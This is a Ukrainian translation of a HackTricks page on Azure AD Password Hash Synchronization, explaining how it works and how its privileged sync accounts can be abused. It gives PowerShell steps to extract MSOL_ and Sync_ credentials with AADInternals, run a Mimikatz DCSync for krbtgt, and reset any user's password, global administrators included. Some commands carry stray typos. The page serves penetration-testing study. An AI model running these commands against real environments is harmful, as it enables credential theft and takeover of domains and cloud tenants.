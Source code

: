 # Az - PHS - Синхронізація хешів паролів

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Синхронізація хешів паролів** - один із методів входу, який використовується для досягнення гібридної ідентичності. **Azure AD Connect** синхронізує хеш, хешу, пароля користувача з локального екземпляра Active Directory до хмарного екземпляра Azure AD.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Це **найпоширеніший метод**, який використовується компаніями для синхронізації локального AD з Azure AD.

Усі **користувачі** та **хеші хешів паролів** синхронізуються з локального до Azure AD. Однак **паролі у відкритому вигляді** або **оригінальні хеші** не надсилаються до Azure AD.\
Більше того, **вбудовані** групи безпеки (наприклад, адміністратори домену...) **не синхронізуються** з Azure AD.

Синхронізація **хешів** відбувається кожні **2 хвилини**. Однак за замовчуванням **строк дії пароля** та **строк дії облікового запису** **не синхронізуються** в Azure AD. Таким чином, користувач, чий **локальний пароль закінчився** (не змінений), може продовжувати **отримувати доступ до ресурсів Azure** за допомогою старого пароля.

Коли локальний користувач бажає отримати доступ до ресурсу Azure, **аутентифікація відбувається в Azure AD**.

Для функцій, таких як **Захист ідентичності** та служби домену AAD, **PHS** обов'язковий.

## Перехід

Коли PHS налаштований, автоматично створюються деякі **привілейовані облікові записи**:

* Обліковий запис **`MSOL_<installationID>`** автоматично створюється в локальному AD. Цьому обліковому запису надається роль **Облікові записи синхронізації каталогу** (див. [документацію](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), що означає, що він має **дозволи на реплікацію (DCSync) в локальному AD**.
* Обліковий запис **`Sync_<name of on-prem ADConnect Server>_installationID`** створюється в Azure AD. Цей обліковий запис може **скидати пароль будь-якого користувача** (синхронізованого або тільки хмарного) в Azure AD.

Паролі двох попередніх привілейованих облікових записів **зберігаються в SQL-сервері** на сервері, де встановлено **Azure AD Connect.** Адміністратори можуть витягти паролі цих привілейованих користувачів у відкритому вигляді.\
База даних розташована в `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Можливо витягнути конфігурацію з однієї з таблиць, причому одна з них зашифрована:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Зашифрована конфігурація** зашифрована за допомогою **DPAPI** і містить **паролі користувача `MSOL_*`** в локальному AD та пароль **Sync\_\*** в AzureAD. Таким чином, компрометуючи їх, можливо піднятися в привілеї до AD та AzureAD.

Ви можете знайти [повний огляд того, як ці облікові дані зберігаються та розшифровуються в цьому виступі](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Пошук **сервера Azure AD Connect**

Якщо **сервер, на якому встановлено Azure AD Connect**, приєднаний до домену (рекомендовано в документації), його можна знайти за допомогою:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Зловживання MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Ви також можете використовувати [**adconnectdump**](https://github.com/dirkjanm/adconnectdump), щоб отримати ці облікові дані.
{% endhint %}

### Зловживання Sync\_\*

Компрометуючи обліковий запис **`Sync_*`**, можливо **скинути пароль** будь-якого користувача (включаючи глобальних адміністраторів)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Також можливо **змінювати паролі лише хмарних** користувачів (навіть якщо це несподівано)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Це також можливо витягти пароль цього користувача.

{% hint style="danger" %}
Ще одним варіантом буде **надання привілейованих дозволів службовому принципалу**, яке **користувач Sync має дозвіл** виконати, а потім **отримати доступ до цього службового принципалу** як спосіб підвищення привілеїв.
{% endhint %}

### Плавний SSO

Можливо використовувати Плавний SSO з PHS, що є вразливим для інших зловживань. Перевірте це в:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Посилання

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>
